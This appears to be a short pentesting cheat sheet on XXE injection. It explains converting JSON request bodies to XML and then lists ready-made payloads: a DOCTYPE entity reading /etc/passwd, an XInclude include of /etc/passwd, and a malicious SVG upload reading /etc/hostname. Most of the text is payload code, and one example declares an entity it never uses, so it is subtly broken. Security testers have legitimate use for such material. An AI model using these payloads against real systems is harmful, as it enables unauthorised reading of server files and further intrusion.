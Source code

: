 # XMLI METHOD

Check the Contenttype that is allowed.
	If application/json change to application/xml //or other option

Change Post data from json to xml (Conten-Type Converter Burp Extension)

## Simple Example
```
{
  "firstname":"Mike",
  "lastname":"hill",
  "Uid":"123"
 }
```
TO
```
<!--?xml version="1.0"?-->
<userinfo>
  <firstname>
  Mike
  </firstname>
  <lastname>
  hill
  </lastname>
  <Uid>
  123
  </Uid>
</userinfo>
```

If it works, try different approaches/payloads
e.g.
```
<!--?xml version="1.0"?-->
<!DOCTYPE replace [<!ENTITY asd SYSTEM "file:///etc/passwd"> ]>
<userinfo>
  <firstname>
  Mike
  </firstname>
  <lastname>
  hill
  </lastname>
  <Uid>
  123
  </Uid>
</userinfo>
```
Read the etc/passwd file if there is no waf

## XInclude
Client submitted data, e.g. in POST parameter with server-side embed
```
<asd xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></asd>
```

## XXE via SVG upload

Upload a SVG in Image File with XML
```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
